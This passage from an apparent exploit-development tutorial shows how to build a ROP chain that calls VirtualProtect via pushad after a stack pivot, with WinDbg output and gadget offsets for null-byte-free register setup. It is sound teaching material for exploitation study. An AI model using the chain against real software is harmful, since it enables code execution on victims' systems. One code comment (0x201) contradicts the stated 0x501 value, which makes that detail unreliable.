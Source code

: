 ```
0:003> `p
deadc0de ??              ???
```

As before, we are going to use a stack pivot to land in our input buffer and execute a rop chain which just consists of a dummy instruction at this point. Let’s explore how pushad works: Pushes the following registers in the following order onto the stack: `EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI` ([https://c9x.me/x86/html/file\_module\_x86\_id\_270.html](https://c9x.me/x86/html/file_module_x86_id_270.html)) .

We also need to know what arguments [VirtualProtect](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) expects:

```cpp
BOOL VirtualProtect(
  [in]  LPVOID lpAddress,
  [in]  SIZE_T dwSize,
  [in]  DWORD  flNewProtect,
  [out] PDWORD lpflOldProtect
);
```

The first argument **lpAddress** is the address at which we want to change memory protections, **dwSize** is giving the size, **flNewProtect** is a mask for the new protections we want (0x40 = PAGE\_EXECUTE\_READWRITE) and **lpflOldProtect** must be a writeable address so the old protections can be stored. If we look at the order pushad places the values on the stack, we should setup the registers as follows (which will end up on the stack exactly in the order below but in reverse, e.g. ropnop being the first gadget):

```
# Registers
EAX 90909090  => Shellcode                                               
ECX &writable => lpflOldProtect                                
EDX 00000040  => flNewProtect                                   
EBX 00000501  => dwSize                                           
ESP ????????  => lpAddress (ESP)                         
EBP ????????  => Redirect control fow to ESP              
ESI ????????  => &VirtualProtect
EDI ????????  => RopNop
```

Setting those registers up correctly requires some planning – as soon as you are done setting up one of them you can not use it anymore to setup the other registers. That’s why we have to setup the more commonly used registers at the end.

We start by setting up ebx. Note that in order to get 0x501 into the register without having null bytes we could use a `add, DWORD` instruction and calculate the difference. In this case there is `add eax,5D40C033;`. If we calculate ``? 0x501 - 0x5d40c033 = a2bf44ce`` we get the value we have to put into that register to end up with the value we want.

```
# EBX
# Blocked: None
0x4CBFB + binary_base,  # pop eax; ret;
0xa2bf44ce,             # put delta into eax (goal: 0x00000201 into ebx)
0x7720E + binary_base,  # add eax,5D40C033; ret;
0x3AE24 + binary_base,  # xchg eax, ebx; ret;
```
